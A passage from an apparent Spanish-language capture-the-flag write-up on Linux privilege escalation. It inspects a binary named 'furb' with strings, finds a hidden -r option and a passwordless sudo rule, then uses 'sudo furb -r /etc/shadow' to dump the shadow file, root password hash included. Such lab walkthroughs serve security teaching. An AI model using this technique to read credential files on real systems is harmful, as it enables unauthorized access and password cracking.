 Vemos `2` archivos muy interesantes que son los siguiente:

```
/usr/bin/furb
/var/backups/furbRead.txt
```

Vamos a ver que hace el binario `furb` con `strings`.

```shell
strings /usr/bin/furb
```

Info:

```
................................<RESTO DE CODIGO>..................................
Error: Missing file argument for -r
................................<RESTO DE CODIGO>..................................
```

Vemos esa linea muy interesante con un parametro `-r` ya que si ejecutamos el binario directamente vemos esto:

```shell
furb --help
```

Info:

```
furb version 1.0
Usage:
  furb --help        Show this help message
  furb --version     Show version information
  furb --list        List installed items
```

Pero si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bambi on e6f67923b724:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bambi may run the following commands on e6f67923b724:
    (ALL : ALL) NOPASSWD: /usr/bin/furb
```

Vemos que podemos ejecutar el binario `furb` como el usuario `root` y tambien hemos visto antes que con el parametro `-r` faltaba el argumento de un archivo, vamos a probar lo siguiente:

```shell
sudo furb -r /etc/shadow
```

Info:

```
root:$y$j9T$djr/6OzFs5YQBGkXwyusg0$OJCmQMUtPM.g1Jw/6wVW9ZSEgHfnZq5EW6mPRygleO/:20249:0:99999:7:::
daemon:*:20237:0:99999:7:::
bin:*:20237:0:99999:7:::
sys:*:20237:0:99999:7:::
sync:*:20237:0:99999:7:::
games:*:20237:0:99999:7:::
man:*:20237:0:99999:7:::
lp:*:20237:0:99999:7:::
mail:*:20237:0:99999:7:::
news:*:20237:0:99999:7:::
uucp:*:20237:0:99999:7:::
proxy:*:20237:0:99999:7:::
www-data:*:20237:0:99999:7:::
backup:*:20237:0:99999:7:::
```